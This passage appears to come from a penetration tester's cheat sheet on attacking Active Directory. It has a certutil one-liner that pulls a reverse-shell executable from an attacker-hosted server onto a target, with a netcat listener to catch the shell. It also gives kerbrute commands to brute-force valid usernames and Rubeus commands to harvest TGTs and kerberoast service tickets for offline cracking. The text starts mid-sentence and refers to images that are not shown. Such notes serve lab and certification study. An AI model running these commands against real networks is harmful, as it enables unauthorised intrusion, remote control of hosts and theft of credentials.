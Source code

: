 **OR**

If you have creds/hashes to the target, use crackmapexec to request the reverse shell, and again to execute it.

For the first command, change the ‘rev.exe’ section in the picture below to:

```command prompt - target
certutil.exe -urlcache -split -f http://$KALI:80/reverse.exe
```

then run your modified version of the command below (make sure you were hosting a web server for rev.exe, and make sure you have an nc listener for the shell):

![](https://miro.medium.com/max/1400/1*glZz8LUp94irPg64hv8oMQ.png)

## kerbrute

Kerbrute is a popular enumeration tool used to brute force and enumerate valid active directory users by abusing Kerberos pre-authentication. I like to start username enumeration with the below wordlist, but hopefully I can grab legit usernames through LDAP enumeration or enum4linux. If so, I’ll create a user list based on those names and use kerbrute to verify they actually exist.

**kerbrute binary:**
[https://github.com/ropnop/kerbrute/releases](https://github.com/ropnop/kerbrute/releases)

**Wordlist:**
[https://github.com/jeanphorn/wordlist/blob/master/usernames.txt](https://github.com/jeanphorn/wordlist/blob/master/usernames.txt)

-   Add DC (or hostname) DNS name and IP to / etc / hosts file 
- 
```bash - kali
./kerbrute userenum — dc $DOMAIN_CONTROLLER_NAME -d $DOMAIN <path to user-wordlist>
```

## Rubeus

Good tool for harvesting TGTs and conducting various attacks. Transfer it to the target to run it.

**rubeus binary:**
[https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe)

**Harvest TGTs every 30 seconds:**

```command prompt - target
rubeus.exe harvest /interval:30
```

**Kerberoasting:**
```command prompt - target
rubeus.exe kerberoast
```
-   [copy the hash to your attack box into a file — we’ll call it hash.txt]

![[Hashcat#Kerberos TGS-REP]]
